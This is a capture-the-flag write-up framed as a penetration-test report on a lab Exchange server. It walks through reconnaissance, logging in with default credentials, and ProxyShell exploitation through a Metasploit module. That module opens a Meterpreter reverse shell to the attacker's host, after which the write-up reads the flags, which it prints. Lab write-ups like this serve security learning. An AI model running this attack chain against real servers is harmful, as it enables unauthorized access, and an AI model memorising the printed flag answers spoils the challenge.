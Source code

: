 Project Objective
The goal of this project was to conduct a penetration test on the system with IP address 10.10.102.166 to identify vulnerabilities, gain unauthorized access, and extract sensitive data (flags). Key tasks included:

Reconnaissance of services and open ports.

Authentication bypass and vulnerability exploitation.

Gaining access to internal resources.

Documenting findings and providing remediation recommendations.

Work Performed
1. Reconnaissance
I performed network scanning using Nmap:

Discovered critical open ports: 80 (HTTP), 443 (HTTPS), 3389 (RDP).

Identified service versions:

Microsoft IIS 10.0 (web server).

Microsoft Exchange (confirmed via SSL certificate analysis and /owa path).

Windows Server 2019 (based on RDP version).

2. Web Interface Analysis
Used Gobuster to search for hidden directories:

Found /rpc (requires authentication), indicating Microsoft Exchange.

Discovered /test, protected by basic authentication.

Manual Vulnerability Testing:

Brute-forced credentials (admin:admin) granted access to /test, where I found:

Flags:

THM{Security_Through_Obscurity_Is_Not_A_Defense}

THM{Stop_Reading_Start_Doing}

An admin note mentioning missing Exchange updates, hinting at ProxyShell vulnerability.

3. ProxyShell Exploitation
Used Metasploit Framework for the attack:

Module: exploit/windows/http/exchange_proxyshell_rce.

Configuration:

bash
set RHOSTS 10.10.102.166
set LHOST 10.10.95.52
exploit
Result:

Successfully obtained a Meterpreter session.

Automatic web shell creation and remote code execution (RCE).

4. Post-Exploitation

Switched to Windows command shell:

bash
shell
Located and extracted the final flag:

Navigated to C:\Users\Administrator\Documents.

Read flag.txt:

bash
more flag.txt
Final flag: THM{Looking_Back_Is_Not_Always_Bad}.

Findings & Recommendations
Identified Vulnerabilities:

Unsecured test interface (/test) with weak credentials (admin:admin).

ProxyShell vulnerability (CVE-2021-34473) due to unpatched Exchange.

Remediation Steps:

Remove or restrict access to test interfaces (e.g., /test).

Install all security updates for Microsoft Exchange.

Disable basic authentication on critical resources; use OAuth or 2FA instead.

Conduct regular security audits to detect similar vulnerabilities.

Conclusion:
The penetration test was successfully completed, covering all stages from reconnaissance to full system access. All objectives were achieved, and flags were retrieved. The vulnerabilities stemmed from poor server configuration and lack of updates, which are common in insecure setups.
